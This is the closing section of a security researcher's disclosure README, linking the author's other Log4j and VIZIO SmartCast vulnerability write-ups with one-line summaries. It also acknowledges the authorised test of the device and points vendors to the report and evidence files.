Other disclosures from the same author, each with a full write-up and a working proof of
concept:

- **[Apache Log4j — RCE via classpath resources Log4j trusts without asking](https://github.com/vindeckyy/log4j-classpath-plant-rce)** — a planted configuration resource is evaluated at start-up, so the attack lands before any request reaches the application.
- **[Apache Log4j — RCE via configuration-time evaluation of untrusted Thread Context Map data](https://github.com/vindeckyy/log4j-config-time-lookup-rce)** — lookup on attacker-controlled data executes code during configuration parsing, plus a second impact: secret disclosure with no special configuration needed.
- **[Apache Log4j — log injection and record corruption](https://github.com/vindeckyy/log4j-log-injection)** — three findings in the logging path itself: structured-data injection, 3.x attribute drift and JSON NaN, live-proven.
- **[VIZIO SmartCast — unauthenticated LAN JavaScript execution and persistent internal-API control](https://github.com/vindeckyy/smartcast-backdoor)** — a LAN attacker gets code execution on the TV and durable control of its internal API, on hardware that ships a JavaScript app store.

---

## Acknowledgements

Thanks to the owner of the hardware, who authorised the test and supplied the credential.
The device was returned to its original state; the verification is in
[`evidence/device-state-after.txt`](evidence/device-state-after.txt).

If you are a vendor reading this and want to do the right thing: the report in
[`REPORT.md`](REPORT.md) is complete enough to reproduce and to fix, and
[`evidence/device-internals.txt`](evidence/device-internals.txt) documents the platform in
enough detail to audit the rest of `/usr/lib/lua/luci/model/` for the same pattern.
